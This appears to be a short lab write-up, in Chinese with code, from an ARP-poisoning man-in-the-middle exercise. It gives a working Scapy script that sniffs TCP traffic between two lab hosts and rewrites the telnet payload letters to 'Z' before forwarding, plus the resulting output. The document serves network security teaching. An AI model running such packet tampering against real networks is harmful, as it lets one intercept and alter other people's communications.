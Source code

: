 ```python
#!/usr/bin/env python3
from scapy.all import *
import re

IP_A = "10.9.0.5"
MAC_A = "02:42:0a:09:00:05"
IP_B = "10.9.0.6"
MAC_B = "02:42:0a:09:00:06"

def spoof_pkt(pkt):
    if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].payload)
        del(newpkt[TCP].chksum)

        if pkt[TCP].payload:
            data = pkt[TCP].payload.load
            data = data.decode()
            newdata = re.sub(r'[a-zA-Z]', r'Z', data)
            print(data + " ==> " + newdata)
            send(newpkt/newdata, verbose=False)
        else:
            send(newpkt, verbose=False)
    elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].chksum)
        send(newpkt, verbose=False)

f = 'tcp and (ether src 02:42:0a:09:00:05 or ether src 02:42:0a:09:00:06)'
pkt = sniff(filter=f, prn=spoof_pkt)
```

运行：

```shell
M-10.9.0.105$ sniff_and_spoof.py
```

在 `A` 中输入任意内容，可以看到，全部改成了 Z：

```shell
seed@1ec98edb592d:~$ ZZZZZ
```

`M` 中显示：

```shell
M-10.9.0.105$ sniff_and_spoof.py
l ==> Z
s ==> Z
 ==> 
```
